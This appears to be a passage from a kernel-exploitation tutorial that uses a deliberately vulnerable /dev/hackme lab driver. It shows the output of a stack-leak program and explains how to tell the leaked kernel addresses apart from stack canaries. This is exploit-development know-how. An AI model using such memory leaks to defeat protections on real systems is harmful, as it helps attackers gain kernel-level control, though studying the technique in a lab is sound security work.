 Its output looks as follows.
```
$ ./leak_stack
[+] successfully opened /dev/hackme
[*] trying to leak up to 320 bytes memory
[+] offset 0 contains value: 0xffffffffa773a630
[+] offset 1 contains value: 0x2a
[+] offset 2 contains value: 0x3d8f236e8e010100
[+] offset 3 contains value: 0xffff946086cae110
[+] offset 4 contains value: 0xffffad8e801bfe68
[+] offset 5 contains value: 0x4
[+] offset 6 contains value: 0xffff946086cae100
[+] offset 7 contains value: 0xffffad8e801bfef0
[+] offset 8 contains value: 0xffff946086cae100
[+] offset 9 contains value: 0xffffad8e801bfe80
[+] offset 10 contains value: 0xffffffffa728ab57
[+] offset 11 contains value: 0xffffffffa728ab57
[+] offset 12 contains value: 0xffff946086cae100
[+] offset 13 contains value: 0x0
[+] offset 14 contains value: 0x7ffe54601790
[+] offset 15 contains value: 0xffffad8e801bfea0
[+] offset 16 contains value: 0x3d8f236e8e010100
[+] offset 17 contains value: 0x140
[+] offset 18 contains value: 0x0
[+] offset 19 contains value: 0xffffad8e801bfed8
[+] offset 20 contains value: 0xffffffffa728565f
[+] offset 21 contains value: 0xffff946086cae100
[+] offset 22 contains value: 0xffff946086cae100
[+] offset 23 contains value: 0x7ffe54601790
[+] offset 24 contains value: 0x140
[+] offset 25 contains value: 0x0
[+] offset 26 contains value: 0xffffad8e801bff20
[+] offset 27 contains value: 0xffffffffa75a6507
[+] offset 28 contains value: 0xffffffffa7871d81
[+] offset 29 contains value: 0x0
[+] offset 30 contains value: 0x3d8f236e8e010100
[+] offset 31 contains value: 0xffffad8e801bff58
[+] offset 32 contains value: 0x0
[+] offset 33 contains value: 0x0
[+] offset 34 contains value: 0x0
[+] offset 35 contains value: 0xffffad8e801bff30
[+] offset 36 contains value: 0xffffffffa776330a
[+] offset 37 contains value: 0xffffad8e801bff48
[+] offset 38 contains value: 0xffffffffa6e0a157
```

When looking at the stack, we can see three types of entities. There
are arguments to functions at offset 1 and 5. Then, there are
addresses starting with 0xffff. Thirdly, there are stack canaries.
such as the one at offset 2, 16, or 30. Apparently, the one at offset
2 is a part of the uninitialized memory from the variable `tmp[32]` and
not a canary, even though it looks like one.
